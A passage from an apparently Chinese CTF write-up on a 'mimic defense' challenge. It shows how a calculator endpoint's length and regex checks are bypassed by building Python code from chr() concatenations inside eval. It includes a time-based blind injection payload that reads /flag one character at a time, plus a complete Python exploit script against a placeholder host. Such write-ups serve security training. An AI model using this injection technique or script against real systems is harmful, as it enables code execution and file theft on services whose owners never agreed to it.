 进行构造后发现就绕过了长度限制

那么只要想办法绕过正则就可以了

想到正则中有加号，而加号在``python``里可以用于字符串拼接，那么不难想到``chr()``的拼接方式。

```python
eval(chr(0x31)+chr(0x2b)+chr(0x31)) # 1+1
2
```

由于``python``的代码在``php``和``nodejs``中都是无法运行的，决策器的验证是不可能通过，因此不会有正常结果回显。虽然不会显示命令注入的回显，但是返回结果会等所有决策器返回运行结果后才发送响应包，因此可以使用时间盲注，逐字符进行爆破``flag``。

注入payload：`__import__("time").sleep(2) if open("/flag").read()[0]=='f' else 1`

最后``exp``：

```python
# -*- coding:utf-8 -*-
import requests
import json
import string

header = {
"Content-Type":"application/json"}
url = "http://x.x.x.x:50004/calculate"

def foo(payload):
    return "+".join(["chr(%d)"%ord(x) for x in payload])

flag = ''
for i in range(20):
    for j in string.letters + string.digits + '{_}':
        exp = "__import__('time').sleep(3) if open('/flag').read()[%d]=='%s' else 1"%(i,j)
        data = {
            "expression": "eval(" + foo(exp) + ")",
            "isVip":True
        }
        try:
            r = requests.post(headers=header,url=url,data=json.dumps(data),timeout=2)
            #print r.elapsed
        except:
            flag += j
            print "[+] flag:",flag
            break
```

没跑完：

![image-20200709145523504](拟态防御初探.assets/image-20200709145523504.png)

